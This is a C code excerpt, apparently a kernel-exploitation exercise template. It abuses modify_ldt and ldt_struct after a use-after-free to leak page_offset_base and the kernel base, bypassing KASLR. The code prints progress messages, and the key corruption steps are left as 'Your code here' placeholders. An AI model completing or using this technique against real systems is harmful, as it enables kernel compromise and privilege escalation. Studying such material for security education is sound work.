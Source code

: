 ```c
    /* init descriptor info */
    desc.base_addr = 0xff0000;
    desc.entry_number = 0x8000 / 8;
    desc.limit = 0;
    desc.seg_32bit = 0;
    desc.contents = 0;
    desc.limit_in_pages = 0;
    desc.lm = 0;
    desc.read_exec_only = 0;
    desc.seg_not_present = 0;
    desc.useable = 0;

	/**
	 * do something to make the following ldt_struct to be modifiable,
	 * e.g. alloc and free a 32B GFP_KERNEL object under a UAF. 
	 * 
	 * Your code here:
	 */

    syscall(SYS_modify_ldt, 1, &desc, sizeof(desc));

    /* leak kernel direct mapping area by modify_ldt() */
    while(1) {
        /**
         * do something to modify the ldt_struct->entries
         * Your code here:
         */

        retval = syscall(SYS_modify_ldt, 0, &temp, 8);
        if (retval > 0) {
            printf("[-] read data: %llx\n", temp);
            break;
        }
        else if (retval == 0) {
            err_exit("no mm->context.ldt!");
        }
        page_offset_base += 0x1000000;
    }
    printf("\033[32m\033[1m[+] Found page_offset_base: \033[0m%lx\n", 
           page_offset_base);

	/* leak kernel base from direct mappinig area by modify_ldt() */
    /**
	 * do something there to modify the ldt_struct->entries 
	 * to page_offset_base + 0x9d000, pointer of secondary_startup_64() is here,
	 * read it out and we can get the base of `.text` segment.
	 * 
	 * Your code here:
	 */

    syscall(SYS_modify_ldt, 0, &secondary_startup_64, 8);
    kernel_offset = secondary_startup_64 - SECONDARY_STARTUP_64;
    kernel_base += kernel_offset;
    printf("\033[34m\033[1m[*]Get addr of secondary_startup_64: \033[0m%lx\n",
           secondary_startup_64);
    printf("\033[34m\033[1m[+] kernel_base: \033[0m%llx\n", kernel_base);
    printf("\033[34m\033[1m[+] kernel_offset: \033[0m%llx\n", kernel_offset);

	/* search for something in kernel space */
	pipe(pipe_fd);
    buf = (char*) mmap(NULL, 0x8000, 
                        PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 
                        0, 0);
```
